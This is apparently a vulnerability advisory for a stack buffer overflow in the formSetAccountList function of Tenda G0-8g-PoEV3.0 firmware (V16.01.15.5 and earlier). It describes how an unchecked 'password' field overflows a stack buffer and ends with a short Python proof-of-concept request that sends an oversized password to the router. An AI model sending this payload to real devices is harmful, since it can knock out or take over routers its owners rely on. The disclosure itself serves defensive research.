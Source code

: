 # Tenda G0-8g-PoEV3.0 formSetAccountList
### Overview
vendor: Tenda

product: G0-8g-PoEV3.0

version: V16.01.15.5(3680) and before

type: Stack Overflow
### Vulnerability Description
Tenda G0-8g-PoEV3.0 V16.01.15.5(3680) were discovered to contain a stack overflow in the formSetAccountList function.
### Vulnerability details
In function formSetAccountList line 31、35, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v17`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/g0-8g-poev30-1-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
